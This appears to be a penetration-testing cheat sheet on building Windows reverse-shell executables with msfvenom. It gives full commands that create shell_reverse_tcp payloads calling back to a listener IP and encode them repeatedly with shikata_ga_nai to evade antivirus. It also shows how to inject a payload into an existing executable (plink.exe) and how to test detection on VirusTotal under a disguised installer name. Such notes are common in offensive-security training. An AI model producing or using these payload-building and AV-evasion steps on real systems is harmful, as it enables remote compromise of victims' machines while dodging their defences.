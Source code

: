 ### VirusTotal Check

You can check your payloads against Virustotal using msf-virustotal.  This requires creating a free account with Virustotal and generating an API key

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

### Executable Files

#### Unencoded Executables

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -o shell_reverse.exe

# Options
-p	# Payload
-f	# Format
-o	# Output filename
```

#### Encoded Executables

Encoding is normally used to bypass character limitations but also serves as a rudimentary AV evasion technique.  More encoding iterations can be used to evade signature detection.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse.exe

# Options
-e	# Encoder to use
-i	# Number of encoding iterations
```

x86\shikata_ga_nai is the best

List all encoders:

```bash
msfvenom -l encoders
```

#### Injecting into Existing PE's

Portable executables can have payloads injected into them which may further evade AV.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse.exe

# Options
-x	# Executable to inject payload into
```

Note:  When using Meterpreter injected into PE's, the connection will be tied to the PE that the payload was injected into, and thus once the PE finishes, the session will be closed.  To avoid this, migrate your Meterpreter session to another process with an `AutoRunScript` on the Meterpreter Handler
